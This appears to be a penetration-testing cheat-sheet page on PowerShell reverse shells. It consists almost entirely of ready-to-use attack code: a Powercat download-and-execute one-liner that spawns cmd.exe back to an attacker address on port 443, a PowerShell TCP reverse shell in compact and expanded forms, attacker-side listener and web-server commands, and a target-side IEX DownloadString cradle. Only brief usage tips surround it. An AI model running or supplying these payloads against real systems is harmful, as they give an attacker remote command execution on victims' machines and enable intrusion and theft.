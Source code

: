 # Powercat \| Powershell

## Powercat

```bash
powershell  -nop -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.189/powercat.ps1');powercat -c 192.168.119.189 -p 443 -e cmd.exe"
```

{% hint style="info" %}
cmd.exe payload is more reliable and preferred than the Powershell payload below.
{% endhint %}

{% hint style="danger" %}
Note it may be necessary to press `Enter` a couple times after the connection is established. Otherwise shell may not be sent successfully.
{% endhint %}

## Powershell \(.ps1 file\)

$ATTACKER

{% code title="rshell.ps1 \(one-liner\)" %}
```bash
$client = New-Object System.Net.Sockets.TCPClient("192.168.119.189",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

{% code title="rshell.ps1 \(expanded\)" %}
```bash
$client = New-Object System.Net.Sockets.TCPClient("192.168.119.189",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + "# ";
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()};
$client.Close()
```
{% endcode %}

```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
sudo ufw allow from $TARGET proto tcp to any port 80,443
```

$TARGET

```bash
powershell IEX (New-Object Net.WebClient).DownloadString("http://192.168.119.189/rshell.ps1");
```

## Powershell \(one liner\)

Alternatively, use a one liner on the TARGET:

```bash
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.189',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Expanded one liner:

```bash
$client = New-Object System.Net.Sockets.TCPClient('192.168.119.189',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
}
$client.Close();
```

